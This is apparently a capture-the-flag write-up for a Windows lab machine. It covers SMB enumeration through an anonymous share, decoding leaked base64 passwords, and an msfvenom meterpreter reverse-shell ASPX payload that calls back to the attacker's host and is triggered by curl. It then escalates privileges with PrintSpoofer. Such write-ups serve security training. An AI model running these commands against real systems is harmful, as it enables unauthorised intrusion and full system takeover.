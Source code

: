 ```yaml
---
sticker: emoji//1f440
---
```

# ENUMERATION
---

## OPEN PORTS
---


| PORT  | SERVICE               |
| :---- | :-------------------- |
| 80    | `http`                |
| 135   | `msrpc`               |
| 139   | `netbios-ssn?`        |
| 445   | `tcp (SMB)`           |
| 3389  | `ms-wbt-server (RDP)` |
| 49663 | `http`                |
| 49667 | `msrpc`               |
| 49669 | `msrpc`               |
|       |                       |
A lot of ports are open, let's proceed to check the website located at port `80`


![[Pasted image 20241122171440.png]]

Nothing useful is in here, let's skip the fuzzing part as it doesn't contain anything too.

As shown in the open ports, we have RDP on `3389` and also SMB on `445`, let's try to enumerate SMB to check if there's anything useful.





# RECONNAISSANCE
---


## SMB Enumeration

Let's run the following command to list the shares in `SMB`:

`smbclient -l IP`

![[Pasted image 20241122173253.png]]

We find a share `nt4wrksv`, let's research to check if there's a way to access to it:

```ad-hint

#### How to access?
----

Command used

`smbclient \\\\<Victim Ip>\\nt4wrksv`

If we use that, we are able to connect even without the password:

![[Pasted image 20241122173850.png]]

```

We are in and found a `passwords.txt` file, let's download it and take a look at it:

![[Pasted image 20241122173939.png]]

Seems like two passwords, both are `base64` encoded, let's decode them:

![[Pasted image 20241122174102.png]]

![[Pasted image 20241122174229.png]]

We got the following credentials:

```ad-note

`Bob` : `!P@$$W0rD!123`
`Bill` : `Juw4nnaM4n420696969!$$$`


```

Let's scan the machine further to check if there's anything vulnerable, for this, I will use the following Nmap scan:

```ad-hint

##### Nmap
----

If we use: `nmap -Pn -script vuln IP`, we get the following:


![[Pasted image 20241122180438.png]]
The `3389` port is vulnerable to RCE. let's get a shell.

```
# EXPLOITATION
---

Nice, for the exploitation part we need to do the following:

```ad-summary
### Step to step to get the shell
---


1. Use msfvenom and create the reverse shell: `msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=OURIP lport=ourport -f aspx -o reverse_shell.aspx`
2. Upload the reverse shell file to the network share:
![[Pasted image 20241122182149.png]]
3. Use curl to retrieve the reverse shell: `curl http://IP:49663/nt4wrksv/reverse_shell.aspx`
4. Let's use metasploit's multi handler to create a listener:

![[Pasted image 20241122182439.png]]

Let's run the multi handler and use curl at the same time to get our shell:

![[Pasted image 20241122182628.png]]



```



Nice, let's do privilege escalation



# PRIVILEGE ESCALATION
---



For privilege escalation, we need to investigate the machine, let's take a look at the privileges using `getprivs`:


![[Pasted image 20241122182831.png]]

Most interesting one is the `SeImpersonatePrivilege`, we can impersonate, for this privilege escalation, we'll be impersonating `PrintSpoofer`:

```ad-note

Script: [GITHUB LINK](https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe)
```

Once we've put the script inside of our machine using smb, we can do the following:

![[Pasted image 20241122183155.png]]

Switch to shell and go to this route: 

`c:/inetpub/wwwroot/nt4wrksv`

![[Pasted image 20241122183251.png]]

We can now see our `PrintSpoofer64.exe` program, we need to do the following in order to get a reverse shell:

`PrintSpoofer64.exe -i -c powershell.exe`

We are taking advantage of the `SeImpersonatePrivilege`, let's get our root shell:


![[Pasted image 20241122183438.png]]

And just like that, CTF is done.

